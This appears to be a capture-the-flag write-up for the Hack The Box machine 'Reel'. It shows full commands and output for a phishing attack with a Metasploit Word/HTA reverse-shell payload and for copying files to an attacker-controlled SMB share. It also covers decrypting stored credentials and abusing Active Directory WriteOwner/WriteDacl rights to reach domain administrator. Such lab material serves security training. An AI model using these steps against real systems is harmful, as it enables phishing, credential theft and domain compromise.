




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Reel

## Summary

[Reel](https://app.hackthebox.com/machines/143) is a <mark style="color:orange;">hard-rated</mark> box which includes obtaining an initial foothold via a **phishing attack** and moving laterally by **decrypting a password**. Next, after **analyzing domain data** found on the box, two identical privilege escalation paths are pieced together which lead to a **full domain compromise**.

<table><thead><tr><th width="86" align="right">Step</th><th width="189">Action</th><th width="138">Tool</th><th width="335">Achieved</th></tr></thead><tbody><tr><td align="right">1</td><td>FTP Enumeration</td><td><a href="https://github.com/rapid7/metasploit-framework">Metasploit</a></td><td>Initial Foothold</td></tr><tr><td align="right">2</td><td>System Enumeration</td><td><a data-footnote-ref href="#user-content-fn-1">LOTL</a></td><td>Lateral Movement</td></tr><tr><td align="right">3</td><td>Domain Enumeration</td><td><a href="https://www.libreoffice.org/">LibreOffice</a></td><td><a data-footnote-ref href="#user-content-fn-2">EoP</a> Path </td></tr><tr><td align="right">4</td><td>Password Change</td><td><a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1">PowerView</a></td><td>Step 1/2 of <a data-footnote-ref href="#user-content-fn-3">EoP</a></td></tr><tr><td align="right">5</td><td>Group Membership</td><td><a data-footnote-ref href="#user-content-fn-4">LOTL</a></td><td>Step 2/2 of <a data-footnote-ref href="#user-content-fn-5">EoP</a></td></tr><tr><td align="right">6</td><td>System Enumeration</td><td><a data-footnote-ref href="#user-content-fn-6">LOTL</a></td><td>Domain Compromise</td></tr></tbody></table>

## Initial Foothold

### Information Gathering

We start with a Nmap port-scan.


```bash
$ sudo nmap 10.10.10.77 -T4 -open -p- -A

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_05-28-18  11:19PM       <DIR>          documents
| ftp-syst:
|_  SYST: Windows_NT
22/tcp    open  ssh          OpenSSH 7.6 (protocol 2.0)
25/tcp    open  smtp?
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:
|     220 Mail Service ready
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     220 Mail Service ready
|     sequence of commands
|   Hello:
|     220 Mail Service ready
|     EHLO Invalid domain address.
|   Help:
|     220 Mail Service ready
|     DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|   SIPOptions:
|     220 Mail Service ready
|     sequence of commands
|   TerminalServerCookie:
|     220 Mail Service ready
|_    sequence of commands
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2012 R2 Standard 9600 microsoft-ds (workgroup: HTB)
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49159/tcp open  msrpc        Microsoft Windows RPC

Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time:
|   date: 2024-03-22T12:08:44
|_  start_date: 2024-03-22T11:28:14
| smb-os-discovery:
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: REEL
|   NetBIOS computer name: REEL\x00
|   Domain name: HTB.LOCAL
|   Forest name: HTB.LOCAL
|   FQDN: REEL.HTB.LOCAL
|_  System time: 2024-03-22T12:08:43+00:00
| smb2-security-mode:
|   3:0:2:
|_    Message signing enabled and required
```


There are some interesting things to note down based on the Nmap's output:

1. The domain name is `HTB.LOCAL`.
2. The Fully Qualified Domain Name (FQDN) is `REEL.LOCAL.HTB`.
3. The FTP service is available, allows anonymous logins, and has a `documents` directory.
4. The SMTP port is open, something not common.
5. Although it is a Windows box, it has SSH open.&#x20;

Before proceeding further, we should add the names found above in our local DNS file.

```bash
$ grep reel /etc/hosts
10.10.10.77     reel reel.htb.local htb.local
```

&#x20;Let's start by enumerating the FTP service and the `documents` directory.


```bash
$ ftp reel
Connected to reel.
220 Microsoft FTP Service
Name (reel:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||41001|)
125 Data connection already open; Transfer starting.
05-28-18  11:19PM       <DIR>          documents
226 Transfer complete.
ftp> cd documents
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||41007|)
125 Data connection already open; Transfer starting.
05-28-18  11:19PM                 2047 AppLocker.docx
05-28-18  01:01PM                  124 readme.txt
10-31-17  09:13PM                14581 Windows Event Forwarding.docx
226 Transfer complete.
ftp> mget *
mget AppLocker.docx [anpqy?]? y
229 Entering Extended Passive Mode (|||41009|)
125 Data connection already open; Transfer starting.
100% |**************************************************************************************************************************************|  2047       65.33 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 9 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
2047 bytes received in 00:00 (65.09 KiB/s)
mget readme.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||41010|)
125 Data connection already open; Transfer starting.
100% |**************************************************************************************************************************************|   124        4.44 KiB/s    00:00 ETA
226 Transfer complete.
124 bytes received in 00:00 (4.43 KiB/s)
mget Windows Event Forwarding.docx [anpqy?]? y
229 Entering Extended Passive Mode (|||41011|)
125 Data connection already open; Transfer starting.
100% |**************************************************************************************************************************************| 14581      158.93 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 51 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
14581 bytes received in 00:00 (158.43 KiB/s)
```


The `documents` directory includes three files:

1. `readme.txt` (Figure 1) - Someone seems to be expecting an email with an `.rft` attachment. Given that the SMTP port is open, that might lead us somewhere.
2. `AppLocker.docx` (Figure 2) - This contains hash rules for AppLocker.
3. `Windows Event Forwarding.docx` (Figure 3) - This file cannot be opened.

<figure><figcaption><p>Figure 1: Content of the readme.txt file.</p></figcaption></figure>

<figure><figcaption><p>Fgure 2: Content of the AppLocker.docx file.</p></figcaption></figure>

<figure><figcaption><p>Figure 3: Windows Event Forwarding file error.</p></figcaption></figure>

Based on the information we have so far, we can infer that the `Windows Event Forwarding.docx` file was converted and saved by the person who wrote the `read.txt` file, that is, the person who expects to receive emails. Therefore, we can check its metadata to find its author.


```bash
$ exiftool Windows\ Event\ Forwarding.docx
ExifTool Version Number         : 12.76
File Name                       : Windows Event Forwarding.docx
Directory                       : .
File Size                       : 15 kB
File Modification Date/Time     : 2017:10:31 21:13:23+00:00
File Access Date/Time           : 2024:03:22 12:19:08+00:00
File Inode Change Date/Time     : 2024:03:22 12:18:40+00:00
File Permissions                : -rw-r--r--
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x82872409
Zip Compressed Size             : 385
Zip Uncompressed Size           : 1422
Zip File Name                   : [Content_Types].xml
Creator                         : nico@megabank.com
<SNIP>
```


### Phishing Attack

We got the email `nico@megabank.com`, so can now perform a **phishing attack** by:

1. Creating a malicious `rtf` file.
2. Sending an email to `nico` attaching the malicious file.

Before starting our attack, we should first confirm that the user actually exists on the server.

```bash
$ telnet 10.10.10.77 25
Trying 10.10.10.77...
Connected to 10.10.10.77.
Escape character is '^]'.
220 Mail Service ready
HELO test.com
250 Hello.
MAIL FROM: <x7331@test.com>
250 OK
RCPT TO: <randomUser@megabank.com>
550 Unknown user
RCPT TO: <nico@megabank.com>
250 OK
quit
221 goodbye
Connection closed by foreign host.
```

We can create a malicious RTF file using Metasploit's `office_word_hta` module.


```bash
$ msfconsole -q
msf6 > search office_word_hta

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/fileformat/office_word_hta  2017-04-14       excellent  No     Microsoft Office Word Malicious Hta Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/fileformat/office_word_hta

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/fileformat/office_word_hta) > set lhost tun0
lhost => 10.10.14.25
msf6 exploit(windows/fileformat/office_word_hta) > set srvhost tun0
srvhost => 10.10.14.25
msf6 exploit(windows/fileformat/office_word_hta) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/fileformat/office_word_hta) >
[*] Started reverse TCP handler on 10.10.14.25:4444
[+] msf.doc stored at /home/kali/.msf4/local/msf.doc
[*] Using URL: http://10.10.14.25:8080/default.hta
[*] Server started.
```


The exploit gives us a URL (`http://10.10.14.25:8080/default.hta`) and a malicious document (`/home/kali/.msf4/local/msf.doc`). We are now ready to send a phishing email to `nico`.


```bash
$ sendEmail -f x7331@megabank.com -t nico@megabank.com -u 'RTF Convertion' -m 'Please convert this file! Thanks!' -a /home/kali/.msf4/local/msf.doc -s 10.10.10.77
Mar 22 14:49:11 cspanias sendEmail[7666]: Email was sent successfully!
```


Once the file is opened, we get a hit back to our server.


```bash
msf6 exploit(windows/fileformat/office_word_hta) >
[*] Started reverse TCP handler on 10.10.14.25:4444
[+] msf.doc stored at /home/kali/.msf4/local/msf.doc
[*] Using URL: http://10.10.14.25:8080/default.hta
[*] Server started.
[*] Sending stage (176198 bytes) to 10.10.10.77
[*] Meterpreter session 1 opened (10.10.14.25:4444 -> 10.10.10.77:49525) at 2024-03-22 14:49:27 +0000

msf6 exploit(windows/fileformat/office_word_hta) > sessions

Active sessions
===============

  Id  Name  Type                     Information      Connection
  --  ----  ----                     -----------      ----------
  1         meterpreter x86/windows  HTB\nico @ REEL  10.10.14.25:4444 -> 10.10.10.77:49525 (10.10.10.77)

msf6 exploit(windows/fileformat/office_word_hta) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > getuid
Server username: HTB\nico
```


We can drop into a shell and grab the `user.txt` file.

```bash
meterpreter > shell
Process 3104 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\nico\Desktop\users.txt
374<REDACTED>a01
```

## Lateral Movement

### Password Decryption

Next to the flag, there is a file called `creds.xml`which includes encrypted credentials.


```bash
C:\Windows\system32>cd c:\users\nico\desktop
cd c:\users\nico\desktop

c:\Users\nico\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of c:\Users\nico\Desktop

28/05/2018  20:07    <DIR>          .
28/05/2018  20:07    <DIR>          ..
27/10/2017  23:59             1,468 cred.xml
22/03/2024  11:29                34 user.txt
               2 File(s)          1,502 bytes
               2 Dir(s)   4,975,329,280 bytes free

c:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```


We can decrypt the password by creating a new `PSCredential` object with PowerShell.


It was impossible to launch a working PowerShell and decrypt the password through the Meterpreter session; it kept hanging forever. In addition, the box is 6 years old so most of the POCs require significant modifications to work. As a result, the process is replicated below, but the password was "stolen" directory from [IppSec](https://app.hackthebox.com/machines/143).



```powershell
# launch PowerShell
c:\Users\nico\Desktop> powershell
# assign the password in a variable
c:\Users\nico\Desktop> $pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692"
# create a secure string object
c:\Users\nico\Desktop> $securePass = ConvertTo-SecureString $pass -AsPlainText -Force
# assign the user name in a variable
c:\Users\nico\Desktop> $user = "HTB\Tom"
# create a pscredential object
c:\Users\nico\Desktop> $cred = New-Object System.Management.Automation.PSCredential($user,$securePass)
# confirm that the object was created
c:\Users\nico\Desktop> $cred

UserName                     Password
--------                     --------
HTB\Tom  System.Security.SecureString
# decrypt the password 
c:\Users\nico\Desktop> $cred.GetNetworkCredential() | fl


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```


We can confirm that the credentials are valid and then use them to SSH into the box:


```bash
# validate credentials
$ nxc smb 10.10.10.77 -u Tom -p '1ts-mag1c!!!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\Tom:1ts-mag1c!!!
# ssh into the box as tom
$ ssh tom@10.10.10.77
The authenticity of host '10.10.10.77 (10.10.10.77)' can't be established.
ED25519 key fingerprint is SHA256:fIZnS9nEVF3o86fEm/EKspTgedBr8TvFR0i3Pzk40EQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.77' (ED25519) to the list of known hosts.
tom@10.10.10.77's password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

tom@REEL C:\Users\tom>
```


## Privilege Escalation

### Sniffing Out an Attack Path

Within `tom`'s desktop there is a `note.txt` file and a `BloodHound` directory.


```bash
tom@REEL C:\Users\tom\Desktop\AD Audit>dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users\tom\Desktop\AD Audit

05/29/2018  08:02 PM    <DIR>          .
05/29/2018  08:02 PM    <DIR>          ..
05/29/2018  11:44 PM    <DIR>          BloodHound
05/29/2018  08:02 PM               182 note.txt
               1 File(s)            182 bytes
               3 Dir(s)   4,970,061,824 bytes free
               
tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt
Findings:

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).

Maybe we should re-run Cypher query against other groups we've created.
```


The note let us know that:

1. Someone analyzed the domain information using BlooHound -> We might find domain data lying around within the `BloodHound` directory.
2. There are no attack paths from a standard user to Domain Admin.
3. They haven't checked yet if there is an attack path from the domain's custom made groups -> Hint us on searching for non-default domain groups and their members.

Although all the BloodHound ingestors are available on the box, we cannot run any because the current group policy blocks them. Fortunately, there is domain data available in the form of a `cvs` file.


```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors

05/29/2018  07:57 PM    <DIR>          .
05/29/2018  07:57 PM    <DIR>          ..
11/16/2017  11:50 PM           112,225 acls.csv
10/28/2017  08:50 PM             3,549 BloodHound.bin
10/24/2017  03:27 PM           246,489 BloodHound_Old.ps1
10/24/2017  03:27 PM           568,832 SharpHound.exe
10/24/2017  03:27 PM           636,959 SharpHound.ps1
               5 File(s)      1,568,054 bytes
               2 Dir(s)   4,970,061,824 bytes free

tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>.\SharpHound.exe -c all
This program is blocked by group policy. For more information, contact your system administrator.
```


We can transfer the `acls.csv` file by first launching an SMB server from our attack host.

<pre class="language-bash"><code class="lang-bash"><strong>$ smbserver -smb2support share ./
</strong>Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
</code></pre>

Next, from the target, we can connect to the share and copy the file.

```bash
# connect to the share
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> net use z: \\10.10.14.25\share
The command completed successfully.
# copy the file
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> cp acls.csv z:\acls.csv
```

Back on our attack host:


```bash
$ smbserver -smb2support share ./
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.77,54343)
[*] AUTHENTICATE_MESSAGE (HTB\tom,REEL)
[*] User REEL\tom authenticated successfully
[*] tom::HTB:aaaaaaaaaaaaaaaa:2a9a6f191f800cfa819552788efb61f0:01010000000000000017ea47817cda0152743fcea038cc9e00000000010010006c005600470045005000490079007000030010006c0056004700450050004900790070000200100067006c007400440045004900740046000400100067006c00740044004500490074004600070008000017ea47817cda0106000400020000000800300030000000000000000000000000300000c7f1ec40a782226df4aac02eb4a76fe72e37ea3152fddcd0fed40094074e14fd0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003500000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```


Since we only have credentials for the account `tom`, we should search information about it:


```bash
$ cat acls.csv | grep tom
"tom@HTB.LOCAL","USER","","Domain Admins@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Enterprise Admins@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Administrators@HTB.LOCAL","GROUP","WriteDacl WriteOwner","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Local System@HTB.LOCAL","USER","GenericAll","","AccessAllowed","False"
"tom@HTB.LOCAL","USER","","Domain Admins@HTB.LOCAL","GROUP","Owner","","AccessAllowed","False"
"claire@HTB.LOCAL","USER","","tom@HTB.LOCAL","USER","WriteOwner","","AccessAllowed","False"
```


It seems that `tom` has `WriteOwner` rights over `claire`. Let's properly open the `csv` file and do some digging. We are currently able to get a shell in the context of `nico` and `tom`. If we filter the `PrincipalName` column for those two accounts, four relationships stand out.

<figure><figcaption></figcaption></figure>

It seems that there are two identical attack paths involving the non-default `Backup_Admins` group:

1. `nico` has `WriteOwner` over `herman` who has `WriteDacl` over `Backup_Admins`.
2. `tom` has `WriteOwner` over `claire` who has `WriteDacl` over `Backup_Admins`.

As explained [here](https://adsecurity.org/?p=3658):

* **WriteOwner**: _Provides the ability to take ownership of an object. The owner of an object can gain full control rights on the object. The right to assume ownership of the object. The user must be an object trustee. The user cannot transfer the ownership to other users._
* **WriteDACL**: _Provides the ability to modify security on an object which can lead to Full Control of the object. The right to modify the DACL in the object security descriptor._

Based on this information, we can formulate the following attack path:

1. Use `tom` 's `WriteOnwer` to change `claire`'s password.
2. Use `claire` 's `WriteDacl` to add herself into `Backup_Admins`group.

### Escalating Privileges

We can use PowerView to execute our plan, since it is already within the `BloodHound` directory.


It seems that the box reverts all changes every minute, so all steps must be performed in that timeframe.&#x20;



```bash
# launch PowerShell
PS C:\Users\tom\Desktop\AD Audit\BloodHound> powershell
# move the directory where PowerView script resides
PS C:\Users\tom\Desktop> cd '.\AD Audit\BloodHound\'
# import PowerView
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Import-Module .\PowerView.ps1
# make tom owner of claire
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
# assign tom the right to reset claire's password
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
# create a secure string
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $pass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
# change claire's password
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword claire -AccountPassword $pass
```


Now, we can validate the credentials, use them to SSH as the user `claire` and add her to the `Backup_Admins` group.


```bash
# confirm credentials
$ nxc smb 10.10.10.77 -u claire -p 'Password123!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\claire:Password123!

# log into SSH
$ ssh claire@10.10.10.77
# check current group members
claire@REEL C:\Users\claire>net groups /domain Backup_Admins
Group name     Backup_Admins
Comment

Members

-------------------------------------------------------------------------------
ranj
The command completed successfully.
# add claire to the group
claire@REEL C:\Users\claire>net group /domain Backup_Admins claire /add
The command completed successfully.
# confirm membership
claire@REEL C:\Users\claire>net groups /domain Backup_Admins
Group name     Backup_Admins
Comment

Members

-------------------------------------------------------------------------------
claire                   ranj
The command completed successfully.
```


Unfortunately, the `Backup_Admins` members seem able to just list the `Administrator`'s directory, but not read the `root.txt` file.

```bash
# list administrator's desktop
$ ssh claire@10.10.10.77 'dir c:\users\administrator\desktop\'
claire@10.10.10.77's password:
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of c:\users\administrator\desktop

01/21/2018  02:56 PM    <DIR>          .
01/21/2018  02:56 PM    <DIR>          ..
11/02/2017  09:47 PM    <DIR>          Backup Scripts
03/22/2024  11:29 AM                34 root.txt
               1 File(s)             34 bytes
               3 Dir(s)   4,853,288,960 bytes free

# read the flag
$ ssh claire@10.10.10.77 'type c:\users\administrator\desktop\root.txt'
claire@10.10.10.77's password:
Access is denied.
```

Interestingly enough, next to the flag, there is a `Backup Scripts` directory which includes 6 files. If we search for the string "_password_", the `Administrator`'s cleartext password is revealed.

```bash
# log into ssh
$ ssh claire@10.10.10.77
# launch PowerShell
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>powershell
Windows PowerShell
Copyright (C) 2014 Microsoft Corporation. All rights reserved.
# move to the Backup Scripts directory
claire@REEL C:\Users\claire>cd ..\administrator
claire@REEL C:\Users\Administrator>cd desktop
claire@REEL C:\Users\Administrator\Desktop>dir
claire@REEL C:\Users\Administrator\Desktop>cd "Backup Scripts"
claire@REEL C:\Users\Administrator\Desktop\Backup Scripts>dir
 Volume in drive C has no label.
 Volume Serial Number is CEBA-B613

 Directory of C:\Users\Administrator\Desktop\Backup Scripts

11/02/2017  09:47 PM    <DIR>          .
11/02/2017  09:47 PM    <DIR>          ..
11/03/2017  11:22 PM               845 backup.ps1
11/02/2017  09:37 PM               462 backup1.ps1
11/03/2017  11:21 PM             5,642 BackupScript.ps1
11/02/2017  09:43 PM             2,791 BackupScript.zip
11/03/2017  11:22 PM             1,855 folders-system-state.txt
11/03/2017  11:22 PM               308 test2.ps1.txt
               6 File(s)         11,903 bytes
               2 Dir(s)   4,853,219,328 bytes free
# search files for credentials
PS C:\Users\Administrator\Desktop\Backup Scripts> type * | findstr 'password'
# admin password
$password="Cr4ckMeIfYouC4n!"
```

Finally, we can confirm the obtained credentials and read the flag.


```bash
# validate credentials
$ nxc smb 10.10.10.77 -u administrator -p 'Cr4ckMeIfYouC4n!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\administrator:Cr4ckMeIfYouC4n! (Pwn3d!)
# read the flag
$ nxc smb 10.10.10.77 -u administrator -p 'Cr4ckMeIfYouC4n!' -x 'type c:\users\administrator\desktop\root.txt'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\administrator:Cr4ckMeIfYouC4n! (Pwn3d!)
SMB         10.10.10.77     445    REEL             [-] WMIEXEC: Dcom initialization failed on connection with stringbinding: "ncacn_ip_tcp:10.10.10.77[49154]", please increase the timeout with the option "--dcom-timeout". If it's still failing maybe something is blocking the RPC connection, try another exec method
SMB         10.10.10.77     445    REEL             [+] Executed command via atexec
SMB         10.10.10.77     445    REEL             128<REDACTED>367
```


[^1]: Living Off The Land

[^2]: Elevation of Privileges

[^3]: Elevation of Privileges

[^4]: Living Off The Land

[^5]: Elevation of Privileges

[^6]: Living Off The Land
